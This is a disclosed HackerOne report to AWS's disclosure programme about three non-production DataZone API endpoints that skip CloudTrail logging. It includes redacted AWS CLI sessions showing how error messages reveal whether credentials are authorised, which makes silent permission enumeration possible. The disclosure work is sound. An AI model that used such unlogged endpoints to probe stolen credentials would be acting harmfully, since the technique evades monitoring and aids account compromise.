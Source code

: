 # (Part 2) Non-Production API Endpoints for the Datazone Service Fail to Log to CloudTrail Resulting in Silent Permission Enumeration

## Report Details
- **Report ID**: 3014785
- **URL**: https://hackerone.com/reports/3014785
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2025-02-26T15:42:35.970Z
- **Disclosed**: 2025-04-08T16:14:56.261Z

## Reporter
- **Username**: nick_frichette_dd
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: aws_vdp

## Vulnerability Information
This is a continuation of a [previous report](████████) which is now locked. 

Hey friends, I'm terribly sorry to do this to you, but just minutes ago I found 3 more endpoints which exhibit the vulnerable behavior. They just came down through my certificate transparency monitoring so I think they were created in the past 24 hours. It is otherwise identical to that previous report.

- ██████████
- ████
- █████

```
█████████ ~ % export AWS_PROFILE=admin
█████ ~ % aws datazone list-domains --endpoint-url ███

An error occurred (AccessDeniedException) when calling the ListDomains operation: Invalid endpoint or operation type
██████████ ~ % export AWS_PROFILE=noperm
██████████ ~ % aws datazone list-domains --endpoint-url ██████

An error occurred (AccessDeniedException) when calling the ListDomains operation: User: arn:aws:sts::█████████:assumed-role/noperm/noperm is not authorized to perform: datazone:ListDomains on resource: arn:aws:datazone:us-east-1:████:domain/*


██████████ ~ % export AWS_PROFILE=admin
███████ ~ % aws datazone list-domains --endpoint-url ████

An error occurred (AccessDeniedException) when calling the ListDomains operation:
███ ~ % export AWS_PROFILE=noperm
████ ~ % aws datazone list-domains --endpoint-url ███

An error occurred (AccessDeniedException) when calling the ListDomains operation: User: arn:aws:sts::███████:assumed-role/noperm/noperm is not authorized to perform: datazone:ListDomains on resource: arn:aws:datazone:us-east-1:███████:domain/*


██████ ~ % export AWS_PROFILE=admin
█████ ~ % aws datazone list-domains --endpoint-url ████

An error occurred (AccessDeniedException) when calling the ListDomains operation:
█████████ ~ % export AWS_PROFILE=noperm
██████ ~ % aws datazone list-domains --endpoint-url ████

An error occurred (AccessDeniedException) when calling the ListDomains operation: User: arn:aws:sts::█████:assumed-role/noperm/noperm is not authorized to perform: datazone:ListDomains on resource: arn:aws:datazone:us-east-1:████:domain/*
```

## Impact

Summary:
An adversary can enumerate permissions of compromised credentials for the datazone service without logging to CloudTrail.

## Attachments
No attachments
